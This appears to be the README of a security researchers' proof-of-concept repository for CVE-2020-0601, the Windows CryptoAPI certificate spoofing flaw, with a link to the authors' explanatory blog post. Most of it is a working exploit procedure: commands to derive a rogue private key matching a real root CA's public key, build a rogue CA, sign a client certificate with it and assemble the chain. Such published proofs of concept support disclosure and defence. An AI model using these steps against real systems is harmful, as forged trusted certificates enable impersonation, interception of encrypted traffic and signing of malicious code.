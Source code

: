 # CryptoAPI

CVE-2020-0601: Windows CryptoAPI Spoofing Vulnerability exploitation. More information in our [blog post](https://research.kudelskisecurity.com/2020/01/15/cve-2020-0601-the-chainoffools-attack-explained-with-poc).

# Install requirements

```bash
pip install -U -r requirements.txt
```

The certificate generation works with OpenSSL verion up to [1.0.2u](https://github.com/openssl/openssl/releases/tag/OpenSSL_1_0_2u).

# CA certificate

We used the [USERTrust ECC Certification Authority](http://www.tbs-x509.com/USERTrustECCCertificationAuthority.crt) but it can be any root certificate working on P-384 curve.

To generate a private key which match the public key from the root certificate we used the script **gen-key.py** (works with Python 3.6 and above):
```bash
$ ./gen-key.py RootCert.pem 
```

The key can be displayed with:
```bash
$ openssl ec -in p384-key-rogue.pem -text
```

Then to generate the rogue CA:

```bash
$ openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -config ca.cnf -days 500
```

Then we generate the following private key and certificate:
```bash
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem

openssl req -key prime256v1-privkey.pem -config openssl.cnf -new -out prime256v1.csr

openssl x509 -req -in prime256v1.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -extensions v3_req -extfile openssl.cnf 
```

Finally to have the complete chain in a single file we concatenate the CA and the server certificates:
```bash
cat client-cert.pem ca-rogue.pem > cert.pem
```